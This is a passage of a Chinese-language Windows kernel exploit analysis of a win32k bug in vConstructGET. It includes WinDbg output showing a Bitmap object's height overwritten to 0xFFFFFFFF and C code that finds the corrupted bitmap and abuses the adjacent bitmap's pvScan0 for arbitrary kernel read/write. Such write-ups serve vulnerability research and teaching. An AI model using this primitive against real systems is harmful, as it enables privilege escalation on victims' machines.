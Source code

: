   
  
继续运行到vConstruct函数结尾处，此时已经成功写入了数据，可以看到此时已经成功修改了BitMap对象中的数据。根据计算，0xCAFC5B9C处保存的是cy，此时cy已经被修改为0xFFFFFFFF，那么就可以通过该BitMap对象修改下一页中的BitMap对象的pvScan实现任意地址读写。  
```
1: kd> g
Breakpoint 2 hit
win32k!vConstructGET+0x7e:
96dc4238 c21000          ret     10h
1: kd> dc cafc5B70
cafc5b70  00000001 00000001 cafc4f98 00000064  .........O..d...
cafc5b80  00000000 00000000 ffffffff 00000100  ................
cafc5b90  00006400 00000000 00000001 ffffffff  .d..............
cafc5ba0  000002c4 cafc5ccc cafc5ccc 00000004  .....\...\......
cafc5bb0  0000319a 00000006 00010000 00000000  .1..............
cafc5bc0  04800200 00000000 00000000 00000000  ................
cafc5bd0  00000000 00000000 00000000 00000000  ................
cafc5be0  00000000 00000000 00000000 00000000  ................
```  
##   
##   
## 2.任意地址读写  
  
  
现在已经可以通过漏洞修改相邻页中的BitMap对象的cy，这样该对象可读写的内存空间会变得很大，可以利用这个特征修改该BitMap对象下一内存页中的BitMap对象中的pvScan，以此来实现任意地址读写。而要知道被修改的BitMap对象，只需要通过GetBitmapBits函数获取返回值，如果返回值大于创建BitMap对象时指定的可读写返回，那么就证明该BitMap被修改过。另外，因为下一页中的BitMap对象句柄未必其相邻，所以要通过SetBitmapBits修改下一内存页的BitMap对象的cy，通过一样的方法获取其句柄。相关代码如下：  
```
pBmpHunted = (PDWORD)malloc(0x1000);
ZeroMemory(pBmpHunted, 0x1000);
 
// 获取被漏洞修改的BitMap对象
for (i = 0; i < dwCount; i++)
{
    if (GetBitmapBits(hBitMap[i], 0x1000, pBmpHunted) > 0x2D0)
    {
        hBmpHunted = hBitMap[i];
        break;
    }
}
 
if (hBmpHunted == NULL || (pBmpHunted[iExtpScan0] & 0xFFF) != 0x00000CCC)
{
    printf("Find hBmpHunted Error\n");
    bRet = FALSE;
    goto exit;
}
 
// 设置相邻页的BitMap对象的cy
if (!xxPoint(iExtHeight, 0xFFFFFFFF))
{
    bRet = FALSE;
    goto exit;
}
 
// 获取相邻页的BitMap对象的句柄
PVOID pBmpExtend = malloc(0x1000);
for (i = 0; i < dwCount; i++)
{
    if (hBitMap[i] != hBmpHunted && GetBitmapBits(hBitMap[i], 0x1000, pBmpExtend) > 0x2D0)
    {
        hBmpExtend = hBitMap[i];
        break;
    }
}
```